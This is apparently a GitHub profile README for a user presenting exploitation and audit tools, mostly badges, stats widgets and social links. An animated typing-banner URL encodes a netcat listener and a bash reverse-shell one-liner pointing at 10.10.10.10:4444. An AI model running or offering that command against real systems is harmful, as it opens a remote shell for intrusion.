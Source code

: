 <h3 align="left">✨ Hello, here you will find tools to exploit vulnerabilities and audits ✨</h3>

  <img height="350" src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=15&pause=1000&multiline=true&repeat=false&width=370&height=180&lines=nc+-lvnp+4444;listening+on+%5Bany%5D++4444+...;connect+to+%5BJoeArchV%5D+profile;bash+-i++%3E%26++%2Fdev%2Ftcp%2F10.10.10.10%2F4444+0%3E%261;JoeArchV%40profile%3A~%24+.%2Fexploit.py;.........................................;..................01001001...............;%24whoami;JoeArchV"  />
</div>

###
<div align="left">
  <img src="https://github-readme-stats.vercel.app/api?username=JoeArchV&hide_title=true&hide_rank=false&show_icons=false&include_all_commits=true&count_private=true&disable_animations=false&theme=dark&locale=en&hide_border=false&order=1" height="130" alt="stats graph"  />
  <img src="https://streak-stats.demolab.com?user=JoeArchV&locale=en&mode=daily&theme=dark&hide_border=false&border_radius=5&order=3" height="130" alt="streak graph"  />
</div>

<h5 align="left">✨ Programming language and social ✨</h5>
<div align="left">
  <img src="https://img.shields.io/badge/C-A8B9CC?logo=c&logoColor=black&style=for-the-badge" height="35" alt="c logo"  />
  <img src="https://img.shields.io/badge/C++-00599C?logo=cplusplus&logoColor=white&style=for-the-badge" height="35" alt="cplusplus logo"  />
  <img src="https://img.shields.io/badge/Python-3776AB?logo=python&logoColor=white&style=for-the-badge" height="35" alt="python logo"  /
  <a href="https://discord.com/invite/qWehcFJxPa" target="_blank">
  <img src="https://img.shields.io/static/v1?message=Discord&logo=discord&label=&color=7289DA&logoColor=white&labelColor=&style=for-the-badge" height="35" alt="discord logo"  /
  <a href="https://www.youtube.com/@joearchyt" target="_blank">
   <img src="https://img.shields.io/static/v1?message=Youtube&logo=youtube&label=&color=FF0000&logoColor=white&labelColor=&style=for-the-badge" height="35" alt="youtube logo"  /
  <a href="https://ko-fi.com/joearch" target="_blank">
   <img src="https://img.shields.io/static/v1?message=Ko-fi&logo=ko-fi&label=&color=F16061&logoColor=white&labelColor=&style=for-the-badge" height="35" alt="ko-fi logo"  /
</div>

